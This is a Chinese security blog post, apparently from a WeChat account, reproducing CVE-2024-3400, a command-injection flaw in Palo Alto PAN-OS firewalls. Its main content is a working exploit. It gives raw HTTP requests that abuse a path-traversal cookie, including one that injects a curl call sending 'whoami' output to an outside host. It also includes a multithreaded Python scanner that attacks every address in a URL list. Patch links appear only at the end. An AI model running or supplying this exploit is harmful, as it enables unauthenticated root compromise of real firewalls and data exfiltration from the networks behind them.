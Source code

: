 #  【成功复现】Palo Alto Networks PAN-OS 命令注入漏洞(CVE-2024-3400)   
原创 弥天安全实验室  弥天安全实验室   2024-04-18 00:03  
  
网安引领时代，弥天点亮未来     
  
  
  
  
  
   
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
**0x00写在前面**  
  
  
**本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**  
0x01漏洞介绍Palo Alto Networks PAN-OS是美国Palo Alto Networks公司的一款下一代防火墙软件。Palo Alto Networks PAN-OS 10.2、11.0、11.1存在命令注入漏洞，该漏洞源于GlobalProtect 功能中存在命令注入漏洞，可能使未经身份验证的攻击者在防火墙上以 root权限执行任意代码。0x02影响版本1、 PAN-OS 11.1.* < 11.1.2-h3 2、 PAN-OS 11.0.* < 11.0.4-h1 3、 PAN-OS 10.2.* < 10.2.9-h10x03漏洞复现  
1.访问漏洞环境  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDnJ4Q61zXthnicpbia1AlTYyZ8f0UxADShmicXa2Pibiby8hkEHtRU3oQa3eLjoFQfeUcr1gEQwAOMLuA/640?wx_fmt=png&from=appmsg "")  
2.对漏洞进行复现 POC （GET）漏洞复现POST /ssl-vpn/hipreport.esp HTTP/1.1Host: 127.0.0.1Cookie: SESSID=/../../../var/appweb/sslvpndocs/global-protect/portal/images/mt417.txt;Connection: closeContent-Type: application/x-www-form-urlencodedContent-Length: 0             更新测试GET /global-protect/portal/images/mt417.txt执行命令POST /ssl-vpn/hipreport.esp HTTP/1.1Host: 127.0.0.1Cookie: SESSID=./../../../opt/panlogs/tmp/device_telemetry/minute/y`curl${IFS}utkmwudrkm.dgrh3.cn?test=$(whoami)`;Connection: closeContent-Type: application/x-www-form-urlencodedContent-Length: 03.python代码测试import randomimport stringfrom concurrent.futures import ThreadPoolExecutorimport urllib3import requestsurllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)resFile = open("resFile.txt", "w")def GenerateRandomString(length):    characters = string.ascii_lowercase + string.digits    return ''.join(random.choice(characters) for _ in range(length))def CheckFile(url, proxy, filename):    headers = {        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.103 Safari/537.36"    }    resp1 = requests.get(url=url + f"/global-protect/portal/images/{filename}.txt", headers=headers, proxies=proxy, verify=False, allow_redirects=False, timeout=10)    resp2 = requests.get(url=url + f"/global-protect/portal/images/{filename}_cve_test.txt", headers=headers, proxies=proxy,                         verify=False, allow_redirects=False, timeout=10)    if resp1.status_code == 403 and resp2.status_code == 404:        return True    else:        return Falsedef CreateFile(url, proxy):    filename = GenerateRandomString(10)    headers = {        "Cookie": f"SESSID=/../../../var/appweb/sslvpndocs/global-protect/portal/images/{filename}.txt;",        "Content-Type": "application/x-www-form-urlencoded",        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.103 Safari/537.36"    }    resp = requests.post(url=url + "/ssl-vpn/hipreport.esp", headers=headers, proxies=proxy, verify=False, allow_redirects=False, timeout=10)    if resp.status_code == 200:        if CheckFile(url, proxy, filename):            print(f"[+] {url}")            resFile.write(f"{url}\n")def GetUrls():    with open("urls.txt","r") as f:        for address in f.readlines():            address = address.strip()            yield addressif __name__ == "__main__":     proxy = {         "http": "http://127.0.0.1:8080",    #     "https": "http://127.0.0.1:8080"     }    #proxy = {}     addrs = GetUrls()     max_thread_num = 30     executor = ThreadPoolExecutor(max_workers=max_thread_num)     for addr in addrs:        future = executor.submit(CreateFile, addr, proxy)0x04修复建议目前厂商已发布升级补丁以修复漏洞，补丁获取链接：https://security.paloaltonetworks.com/CVE-2024-3400https://attackerkb.com/topics/SSTk336Tmf/cve-2024-3400/rapid7-analysishttps://github.com/h4x0r-dz/CVE-2024-3400?tab=readme-ov-filehttps://github.com/W01fh4cker/CVE-2024-3400-RCE?tab=readme-ov-file弥天简介学海浩茫，予以风动，必降弥天之润！弥天安全实验室成立于2019年2月19日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。口号 网安引领时代，弥天点亮未来 知识分享完了喜欢别忘了关注我们哦~学海浩茫，予以风动，必降弥天之润！   弥  天安全实验室  
  

